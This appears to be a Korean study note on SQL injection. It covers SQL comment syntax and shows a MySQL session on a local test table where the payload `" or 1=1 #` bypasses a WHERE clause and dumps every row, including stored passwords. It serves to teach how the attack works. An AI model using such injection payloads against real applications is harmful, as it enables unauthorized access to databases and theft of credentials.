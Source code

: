 * 데이터 베이스의 유저 권한 확인 가능
* COLUMNS: 데이터 베이스 전체에 관한 column 조회 가능
* SCHEMA, TABLES도 전체 데이터 베이스에 관해 조회 가능
* 검증되지 않은 데이터가 웹에 들어오면 데이터 베이스에서 조작 가능한 모든 것을 할 수 있음

### SQL 기본 문법 - 주석 처리

|번호|주석|설명|
|:----:|:----:|:----:|
|1|--|한 줄 주석 처리|
|2|#|한 줄 주석 처리|
|3|/**/|다중 주석 처리|

* 주석 처리를 사용하는 이유: `select * from testtable1 where id = "" or 1=1`을 하면 위에 서술하였듯이 모든 데이터를 가져오는데 문제는 `1=1`뒤에 나오는 내용들이 SQL 인젝션을 방해함
* 따라서 `1=1`뒤의 내용을 주석처리하여 원하는 인젝션을 가능하게 하는 것

### 주석을 이용한 SQL 인젝션

```bash
mysql> use testdb
Database changed
mysql> select * from testtable1;
+----+-----------+-----------+-------------+
| no | name      | id        | pass        |
+----+-----------+-----------+-------------+
|  1 | Sun       | isc0304   | test1234    | 
|  2 | black     | hat       | python      | 
|  3 | practical | malware   | analysis    | 
|  4 | python    | hacking   | programming | 
|  5 | coding    | interview | analysis    | 
|  6 | john      | gray      | love        | 
|  7 | lego      | mindstorm | ev3         | 
+----+-----------+-----------+-------------+
7 rows in set (0.00 sec)

mysql> select * from testtable1 where id="isc0304";
+----+------+---------+----------+
| no | name | id      | pass     |
+----+------+---------+----------+
|  1 | Sun  | isc0304 | test1234 | 
+----+------+---------+----------+
1 row in set (0.00 sec)

mysql> select * from testtable1 where id="isc0304" or 1=1 # "sdafasdf";
    -> ;
+----+-----------+-----------+-------------+
| no | name      | id        | pass        |
+----+-----------+-----------+-------------+
|  1 | Sun       | isc0304   | test1234    | 
|  2 | black     | hat       | python      | 
|  3 | practical | malware   | analysis    | 
|  4 | python    | hacking   | programming | 
|  5 | coding    | interview | analysis    | 
|  6 | john      | gray      | love        | 
|  7 | lego      | mindstorm | ev3         | 
+----+-----------+-----------+-------------+
7 rows in set (0.00 sec)
```
